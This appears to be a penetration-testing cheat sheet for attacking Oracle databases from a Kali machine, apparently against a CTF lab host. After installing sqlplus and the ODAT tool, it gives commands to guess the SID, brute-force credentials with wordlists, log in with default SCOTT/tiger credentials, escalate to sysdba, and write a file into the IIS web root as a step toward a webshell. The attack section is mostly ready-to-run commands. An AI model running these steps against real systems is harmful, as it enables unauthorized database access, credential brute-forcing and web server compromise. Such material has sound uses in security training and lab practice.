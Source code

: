 Interact with Oracle from Kali Box
Tools required
-   `sqlplus`
    -   from [this github](https://github.com/bumpx/oracle-instantclient), download three files:
        -   basic, sdk, and sqlplus
    -   unzip them all into a Directory
    -   update bashrc:
        
        ```bash
        alias sqlplus='/opt/oracle/instantclient_12_2/sqlplus'
        export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/didier:/usr/local/go/bin’
        export SQLPATH=/opt/oracle/instantclient_12_2
        export TNS_ADMIN=/opt/oracle/instantclient_12_2
        export LD_LIBRARY_PATH=/opt/oracle/instantclient_12_2
        export ORACLE_HOME=/opt/oracle/instantclient_12_2
        ```
        
-   Oracle Database Attacking Tool (ODAT)
    -   download release from github: https://github.com/quentinhardy/odat/releases/
    -   unzip in `/opt`
    -   added line to `~/.bashrc`: `alias odat='export LD_LIBRARY_PATH=/opt/odat-libc2.5-i686/; cd /opt/odat-libc2.5-i686/; ./odat-libc2.5-i686; cd -'`
    -   There are detailed instructions on the github readme.
-   metasploit
    
    -   use this walkthrough: https://blog.zsec.uk/msforacle/


# Attack Methodology

### Step 1:
Identify the database

### Step 2:
We need one valid SID, which we can get with `odat` or `metasploit`
###### odat
```bash
odat sidguesser -s 10.10.10.82
```

### Step 3:
Bruteforce User and Password using `odat`
###### odat
```bash
# -d is SID we found in step2
odat.py passwordguesser -d XE -s 10.10.10.82 -p 1521 --accounts-files users-oracle.txt pass-oracle.txt -vv
```

### Step 4:
Connect with database using creds found in Step3.
```bash
# Syntax
sqlplus Username/password@IP:Port/SID

# Example
sqlplus SCOTT/tiger@10.10.10.82:1521/XE
```

### Step 5:
Privilege escalation of current user
Connect with `sysdba` 
```bash
sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba
```

```sql
select * from users_role_privs;
```

Now we know that sysdba has privs so scanning again with it.
```bash
odat all -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba
```

![odat](https://0xdf.gitlab.io/img/ODAT_main_features_v2.0.jpg)

# Getting Webshell 
```bash
odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.txt <(echo 0xdf was here)

curl http://10.10.10.82/0xdf.txt
```

